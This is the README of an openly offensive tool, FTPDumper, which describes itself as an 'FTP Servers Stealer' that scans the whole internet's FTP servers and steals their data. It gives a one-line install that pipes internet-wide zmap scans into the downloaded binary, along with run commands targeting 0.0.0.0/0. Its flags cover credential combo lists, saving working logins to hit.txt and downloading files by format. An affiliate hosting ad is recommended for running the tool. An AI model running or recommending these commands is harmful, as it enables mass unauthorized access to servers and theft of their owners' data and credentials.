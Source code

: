 <p align="center"><img src="https://i.ibb.co/TR8ZCyn/New-Project.png" width="256" alt="logo"></p>
<h1 align="center">FTPDumper - A FTP Servers Stealer</h1>


<p align="center">
<img alt="FTPDumper forks" src="https://img.shields.io/github/forks/MatrixTM/FTPDumper?style=for-the-badge">
<img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/MatrixTM/FTPDumper?style=for-the-badge">
<p align="center"><img src="https://views.whatilearened.today/views/github/MatrixTM/FTPDumper.svg" width="80px" height="28px" alt="View">
</p>

___

<p align="center"><img src="https://i.ibb.co/JvtB5vh/Ftp-Features.png" width="1040" alt="features"></p>

## 🔍 Overview

- 🚀 [Quickstart](#-quickstart)
- ⚙️ [Arguments](#-arguments)
- 👨‍💻 [Best Way to get a server](#-best-way-to-get-a-server)

# 🚀 Quickstart

---

#### One-Line Install And Running on Fresh VPS
```bash
apt update && apt install -y zmap && wget -q $(curl -s https://api.github.com/repos/MatrixTM/FTPDumper/releases/latest | grep browser_download_url | grep "FTPDumper" | cut -d '"' -f 4) && chmod +x FTPDumper && zmap -p 21 -B 50MB -q | ./FTPDumper -l 5000
```

<details>
 <summary><b>🔧 Manual Installation</b></summary>
<h3> 1. Download FTPDumper </h3>
<p>Download FTPDumper from <a href="https://github.com/MatrixTM/FTPDumper/releases">Releases</a></p>

<h3> 2. Set Up Permission </h3>

Set up permission to FTPDumper binary file.
```bash
chmod +x FTPDumper
```

<h3> 3. Run FTPDumper </h3>

You have a few ways to use FTPDumper.

- Zmap
  - Download Zmap
  ```bash
  sudo apt install zmap
  ```
  - Run FTPDumper (Zmap)
  ```bash
  zmap -p 21 -q | ./FTPDumper -l 500 -save
  ```
  - Run FTPDumper (DevWay)
  ```bash
  ./FTPDumper -l 500 -save -s 0.0.0.0/0
  ```
  Check out [Arguments](#-arguments) to see more
</details>

---

# ⚙️ Arguments

```bash
MatrixTM@FTPDumper: ./FTPDumper --help
FTPDumper - Scan World FTP Servers and Steal Their Data

  Flags:
       --version   Displays the program version string.
    -h --help      Displays help with available flag, subcommand, and positional value parameters.
    -scan --scanner   Ip/CIDR scanner (stdin|filename|cidr|ip) (default: stdin)
    -c --combo     Combo File (user:password)
    -p --ports     Ports Split by , (Default Port: 21)
    -o --output    Output Folder (default: files)
    -f --formats   File Formats Split by , (Default Format: all)
    -l --limit     Task limit (default: 10)
    -t --timeout   Timeout in seconds (default: 5s)
    -s --save      Save Credentials in hit.txt
    -v --verbose   Verbose Mode
```

| Argument         | Description                                                                     | Default Value |
|------------------|---------------------------------------------------------------------------------|:-------------:|
| --version        | Displays the program version string.                                            |     None      |
| -h, --help       | Displays help with available flag, subcommand, and positional value parameters. |     None      |
| -scan, --scanner | IP/CIDR scanner [stdin\|filename\|cidr\|ip] stdin                               |     stdin     |
| -c, --combo      | Combo File (user:password)                                                      |   anonymous   |
| -p, --ports      | Ports Split by ,                                                                |      21       |
| -o, --output     | Output Folder files                                                             |     files     |
| -f, --formats    | File Formats Split by ,                                                         |      all      |
| -l, --limit      | Task limit                                                                      |      10       |
| -t, --timeout    | Timeout in seconds                                                              |      5s       |
| -s, --save       | Save Credentials in hit.txt                                                     |     False     |
| -v, --verbose    | Verbose Mode                                                                    |     False     |
---

# 👨‍💻 Best Way to get a server

<a href="https://aeza.net/?ref=375036"><img src="https://i.ibb.co/LthJcL8/image.png" width="728" height="90"  alt="aeza"></a>
##### For this subject, the best hosting I found is [Aeza](https://aeza.net/?ref=375036 "Aeza Hosting")
##### You Can buy hourly 10Gbps & Ryzen 9 Servers with a cheap price


## Star history

---
<picture>
  <source
    media="(prefers-color-scheme: dark)"
    srcset="
      https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date&theme=dark
    "
  />
  <source
    media="(prefers-color-scheme: light)"
    srcset="
      https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date
    "
  />
  <img
    alt="Star History Chart"
    src="https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date"
  />
</picture>
